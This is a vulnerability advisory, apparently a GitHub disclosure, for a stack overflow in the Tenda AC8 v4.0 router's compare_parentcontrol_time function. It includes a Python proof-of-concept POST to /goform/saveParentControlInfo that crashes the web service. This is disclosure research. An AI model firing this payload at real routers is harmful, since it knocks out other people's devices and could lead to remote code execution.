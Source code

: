 # Tenda Router Vulnerability on compare_parentcontrol_time function
> vendor:Tenda
>
> product:AC8
>
> version:v4.0 V16.03.34.06
>
> type:Stack Overflow  

# Overview 
- Firmware download website: https://www.tenda.com.cn/download/detail-3518.html
## Vulnerability Description

Tenda AC8V4.0 V16.03.34.06 were discovered to contain a stack overflow via the `time` parameter in the `compare_parentcontrol_time` function.

## Vulnerability Details

In function  `compare_parentcontrol_time`  line 25, it reads in a user-provided parameter `time`.Line 48, the variable is passed to the `sscanf` function without any length check, which may overflow the stack-based buffer `local_2c` and `local_4c`. As a result, by requesting the page, an attacker can easily execute a **denial of service** attack or **remote code execution**.
![line 25](images/100127.png)
![line 48](images/101152.png)

## Recurring vulnerabilities and POC

Run this poc and you will see the service crash. The service will keep loading until it crashes.

```python
import requests
host = '192.168.1.100'
port = 80
url = f'http://{host}:{port}/goform/saveParentControlInfo'

headers = {
    'Content-Type': 'application/x-www-form-urlencoded'
}

data = {
    'powerSavingEn': 'aaaaa',
    'time': 'ntrolInfoHTTP/1.1Host8.1.1.0:81Content-aafasdfasdfdfsaf'
}
response = requests.post(url, headers=headers, data=data)
```

![python-poc-crash](images/crash1.png)

![httpd-segmentfault](images/crash2.png)


## gdb registers change
After executing the `sscanf` function, the `ra` register was modified, causing the return address of the function to be incorrect, as shown in the figure below.
![registers1](images/ra1.png)
![registers2](images/ra2.png)

# Discoverer
The vulnerability was discovered by Professor Wei Zhou's team (IoTS&P Lab) from the School of Cyber Science and Engineering at Huazhong University of Science and Technology.